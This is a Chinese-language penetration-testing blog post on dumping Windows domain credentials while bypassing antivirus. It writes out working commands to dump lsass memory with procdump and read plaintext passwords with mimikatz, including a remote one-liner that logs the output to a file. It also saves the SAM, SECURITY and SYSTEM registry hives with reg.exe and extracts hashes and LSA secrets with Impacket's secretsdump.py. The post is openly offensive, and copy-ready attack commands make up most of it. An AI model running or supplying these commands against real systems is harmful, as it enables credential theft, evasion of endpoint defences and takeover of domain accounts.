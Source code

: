 ```yaml
---
layout: post
title: 绕过杀软导出域内用户hash的方法记录
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要记录各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash（Impacket或Cain）  




### \#0x01 从内存中dump lsass进程的数据后本地读取密码
##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/systems.png?raw=true)

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。远程执行以下命令：  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```

### \#0x02 从注册表中读取用户hash（Impacket或Cain）
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
利用系统自带的命令复制注册表项，肯定可以免杀，执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
将sam.save、security.save和system.save下载回本地后提取用户hash，提取用户hash的工具有很多，常用的有Impacket的secretsdump.py和Cain，Cain的使用见[MSSQL弱口令的几种利用方法](https://pythonpig.github.io/2018/10/25/MSSQL%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%9A%84%E5%87%A0%E7%A7%8D%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95/)，这里以secretsdump.py为例进行说明。  
执行以下命令  
获取sam.save中的用户hash及security.save中缓存的域用户凭证和LSA Secrets。  
注意，这里在security.save获取到的域用户hash是经过加密处理的，不能用于PASS-THE-HASH Attack。  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam.save中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security.save中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```


## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


